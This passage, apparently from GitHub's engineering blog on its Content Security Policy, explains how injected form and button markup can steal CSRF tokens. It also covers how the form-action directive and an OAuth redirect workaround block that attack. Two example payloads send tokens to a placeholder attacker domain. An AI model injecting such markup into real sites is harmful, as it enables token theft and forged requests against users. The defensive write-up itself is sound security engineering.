 ```
<form action="https://some_evil_site.com/log_csrf_tokens">
```

Sitting below the injection location is a form like:

```
<form action="https://github.com/account/public_keys/19023812091023">
...
<input type="hidden" name="csrf_token" value="afaffwerouafafaffasdsd">
</form>
```

Since the injected form has no closing `</form>` tag we have a situation where the original form is nested inside of the injected form. Nested forms are not allowed and browsers will prefer the topmost form tag. So, when a user submits the form they will export their CSRF token to an attacker, subsequently allowing an attacker to perform a CSRF attack against the user.

Similarly, there happens to be a relatively obscure feature of `button` elements:

```
<button type="submit" form="version-form" formaction="https://some_evil_site.com/log_csrf_tokens">Click Me</button>
```

By limiting `form-action` to a known set of domains we don’t have to think nearly as hard about all the possible ways form submissions might exfiltrate sensitive information. Support for `form-action` is probably one of the most effective recent additions to our policy, though adding it was not without challenges.

When we considered what might break in adding support for `form-action`, we thought it would roll out cleanly. There were no forms identified that we submitted to an off-site domain. But, as soon as we deployed the “preview policy” (visible only to employees) we found an edge case we hadn’t anticipated. When users authorize an OAuth application they visit a URL like `https://github.com/login/oauth/authorize?client_id=b6a3dd26bac171548204`. If the user has previously authorized the application they are immediately redirected to the OAuth application’s site. If they have not authorized the application they are presented a screen to grant access. This confirmation screen results in a form `POST` to GitHub.com that does a 302 redirect to the OAuth application’s site. In this case, the form submission is to GitHub.com, but the request results in a redirect to a third-party site. CSP considers the full request flow when enforcing `form-action`. Because the form submission results in navigation to a site that is not in our `form-action` source list, the redirect is denied.

Recall that we have relied (until recently) on a static policy enforced on every page on GitHub.com. There was no easy way for us to modify the policy dynamically based on the OAuth authorization submission. At first we thought this was a deal breaker and would require us to remove support for `form-action` until we had better support for a dynamic policy. Luckily, we found a work around by using a “meta refresh” redirect. We refactored our OAuth endpoint to redirect to the OAuth application’s site using a meta refresh tag (we have since optimized this to use a faster JS redirect that falls back to the meta refresh if necessary). By avoiding a 302 redirect, CSP only considers the initial form submission and not the subsequent redirect. We are effectively cheating by decoupling the form submission from the redirection. We would eventually like to add support for a dynamic source for our `form-action`, but the meta refresh and JavaScript redirection hack allowed us to move forward with our deployment of `form-action`. The benefits of this change overwhelmingly outweighed the downsides and we deployed the solution to production last May.

#### `child-src`/`frame-src`[](https://github.blog/engineering/platform-security/githubs-csp-journey/#child-src-frame-src)
